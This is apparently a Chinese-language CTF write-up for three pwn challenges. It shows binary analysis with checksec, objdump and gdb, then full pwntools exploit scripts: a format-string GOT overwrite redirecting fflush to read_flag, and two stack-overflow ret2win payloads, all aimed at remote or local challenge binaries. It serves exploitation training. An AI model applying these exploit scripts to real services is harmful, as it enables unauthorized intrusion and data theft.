




# 远程攻击1
下载文件200，分析其中的漏洞，读取服务器的上的flag文件内容

0x1 分析程序

首先看下文件类型

    root@kali:/workspace/reverse/18-11-3# file ./200
    ./200: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=073751d99b0de6a34ec06ccb56963079cc82bdd8, not stripped
    
是一个32位可执行文件,运行后要求输入字符串，输完回车后会打印你输入的字符串，输入过长的文本会出现栈溢出提示

    root@kali:/workspace/reverse/18-11-3# ./200
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    *** stack smashing detected ***: <unknown> terminated
    已放弃
    
这里看一下安全措施，准备用栈溢出的套路去做

    root@kali:/workspace/reverse/18-11-3# checksec ./200
    [*] '/workspace/reverse/18-11-3/200'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
有stack canary,也开了NX。我们去分析一下程序，看看怎么过stack canary 
首先用IDA看一下 

函数列表里发现了一个read_flag函数，在main函数中直接找到了溢出点。这里我没想出怎么去过stack canary,因为想要在溢出的时候不覆盖cookie值必须要先拿到cookie值，然后再构造payload去做后面的操作。也就是说我们需要程序获取两次我们的输入。这里main函数只获取了一次输入，所以过不了。 

不过在分析的时候发现了，scanf函数获取我们的输入，然后直接把这个输入作为printf的参数，调用printf。这里我们尝试可以利用格式化字符串的漏洞。格式化字符串的漏洞可以让我们任意读写内存。我们可以把GOT中存储的fflush函数地址改为read_flag函数的地址，这样当程序调用printf下面的fflush函数的时候，程序实际上调用的是read_flag函数。 

关于格式化字符串的漏洞，可以看看这篇文章，写的很详细 [格式化字符串漏洞学习](https://veritas501.space/2017/04/28/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0/)
 

0x2 编写攻击程序
因为程序调用libc函数的顺序是jmp到PLT地址处，然后在PLT地址处jmp到GOT中存储的函数的地址, 
所以获取GOT中存储fflush函数的地址，方法为先获取fflush的PLT地址，然后根据PLT地址处的jmp汇编指令来获取GOT中存储fflush函数地址的地址 
首先获取两个函数的地址，一个是fflush的PLT地址,一个是read_flag的地址

    root@kali:/workspace/reverse/18-11-3# objdump -d 200 | grep fflush
    08048420 <fflush@plt>:
    8048623:	e8 f8 fd ff ff       	call   8048420 <fflush@plt>
    root@kali:/workspace/reverse/18-11-3# objdump -d 200 | grep read_flag
    0804859b <read_flag>:

通过PLT地址处的汇编指令可以看出，GOT中存储fflush函数的地址为0x804a010
    
    gdb-peda$ disass 0x8048420
    Dump of assembler code for function fflush@plt:
    0x08048420 <+0>:	jmp    DWORD PTR ds:0x804a010
    0x08048426 <+6>:	push   0x8
    0x0804842b <+11>:	jmp    0x8048400
    End of assembler dump.

我们要把数据放到我们的payload中，然后通过printf去使用我们的数据。我们需要知道我们输入的字符串被printf当作是第几个参数。通过在程序中输入%位置$x来找。

    ffroot@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%1$x
    AAAAffb73e88root@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%2$x
    AAAAf7f64410root@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%3$x
    AAAA1root@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%4$x
    AAAA0root@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%5$x
    AAAA1root@kali:/workspace/reverse/18-11-3# ./200 
    AAAA%6$x
    AAAA41414141root@kali:/workspace/reverse/18-11-3#
    
发现在给程序输入AAAA%6$x时，读到了我们输入的前四个A的ASCII码数值。这意味着printf把我们输入的字符串作为第6个参数。

我们可以用pwntools中的函数来实现这个攻击

    from pwn import *

    fflush=0x804a010
    read_flag=0x804859b
    payload = fmtstr_payload(6,{fflush:read_flag})

    p=remote(ip,port)
    print payload
    p.sendline(payload)
    p.interactive()

运行脚本获得flag

# 远程攻击2
下载文件100，分析其中的漏洞，读取服务器的上的flag文件内容

0x1 分析

    root@kali:/workspace/reverse/temp# ./100 
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    root@kali:/workspace/reverse/temp# ./100 
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    段错误
    root@kali:/workspace/reverse/temp# checksec 100
    [*] '/workspace/reverse/temp/100'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    
开启了NX,需要用ROP技术劫持EIP

IDA分析，main函数call了一个val_fun,该函数调用了scanf，是一个溢出点。从函数列表中找到win和read_flag函数，其中win函数call了read_flag函数。尝试劫持EIP至win函数或read_flag函数

0x2 攻击

    from pwn import *

    win=0x8048488
    exit=0xf7e03a30
    payload = "A"*(0x48+4)
    payload += p32(win)
    payload += p32(exit)

    p=remote(ip,port)
    p.sendline(payload)
    p.interactive()

# 远程攻击3

    from pwn import * 
    win_func = 0x80485bd
    hint = 0x80487e0
    ret = 0x0804867a
    conn = process("memory")
    payload = "A"*23
    payload += p32(win_func)
    payload += p32(ret)#clean up     填一个不存在的内存地址会导致崩溃，拿不到flag
    payload += p32(hint)
    payload += '\n'  
    conn.send(payload)
    conn.interactive()
